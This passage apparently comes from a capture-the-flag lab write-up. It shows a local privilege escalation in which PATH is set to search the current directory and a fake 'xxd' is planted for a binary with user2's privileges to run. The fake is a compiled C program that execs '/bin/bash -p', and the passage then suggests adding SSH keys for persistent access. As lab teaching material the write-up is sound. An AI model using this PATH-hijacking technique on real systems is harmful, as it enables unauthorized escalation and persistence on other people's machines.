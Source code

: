 So we can assume the xxd is running under the permissions user2 has.

We can abuse the path variable to check for variables in current directory with following commands.

```
PATH=.:${PATH}
export PATH
```

We can confirm this works by copying the user.flag binary as xxd.

```
cp user.flag xxd
```

When running the command `./testBin app.py` 
it runs the user.flag binary instead.

We can create our own binary that runs bash with user2 permissions

```
#include <stdlib.h>
#include <unistd.h>

int main(void) {
    char *const paramList[10] = {"/bin/bash", "-p", NULL};
    execve(paramList[0], paramList, NULL);
    return 0;
}
```

We can use nano to create a new file with name main.c

```
nano main.c
```

copy the contents over

compile the c file with 

```
gcc main.c
```

rename the file to be xxd and make it executable

```
cp a.out xxd
chmod +x xxd
```

When running the testBin this time we get a new shell and we can confirm we have user2 permissions with`id` command

```
uid=1001(user1) gid=1001(user1) euid=1002(user2) egid=1002(user2) groups=1002(user2),100(users),1001(user1)
```

So to continue, we can add our keys to the user2 and ssh into that account and get full permissions.
